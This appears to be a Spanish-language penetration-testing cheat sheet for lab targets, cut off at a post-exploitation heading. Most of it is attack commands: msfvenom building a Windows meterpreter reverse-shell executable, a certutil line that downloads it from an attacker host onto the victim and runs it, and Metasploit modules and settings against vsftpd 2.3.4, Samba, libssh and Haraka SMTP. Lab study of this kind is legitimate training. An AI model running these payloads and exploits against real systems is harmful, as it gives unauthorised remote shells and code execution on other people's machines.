 - Descargar desde la víctima (Windows)
```cmd
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.5 LPORT=1234 -f exe > meterpreter.exe
certutil -urlcache -f http://192.168.1.135/meterpreter.exe meterpreter.exe
meterpreter.exe
```

### FTP

> La versión  **v2.3.4** es **vulnerable a command injection**, podemos insertar una **backdoor**

```bash
# Una vez ganado acceso desde metasploit y queremos meterpreter
search shell_to_meterpreter
use 0
# Configuramos y lanzamos
```
### SMB

>Samba versión **3.5.0** es vulnerable a ejecución de código, se puede subir una librería y que el servidor la cargue, donde el directorio tenga permisos de escritura

- Exploit
```bash
exploit/linux/samba/is_known_pipename

set rhost demo.ine.local
exploit
```

### SSH

> La versión protocol 2 **libssh**  es vulnerable

- Exploit
```bash
scanner/ssh/libssh_auth_bypass
set spawn_pty true
# aparecerá una shell
```

### SMTP

>Haraka es un servidor SMTP desarrollado en node.js, es vulnerbale por un plugin que procesa los adjuntos, las versiones anteriores a v2.8.9 es vulnerable a inyección de comandos

- Exploit
```bash
set payload linux/x64/meterpreter_reverse_http
```

## Post-explotation

>Hay distintas fases

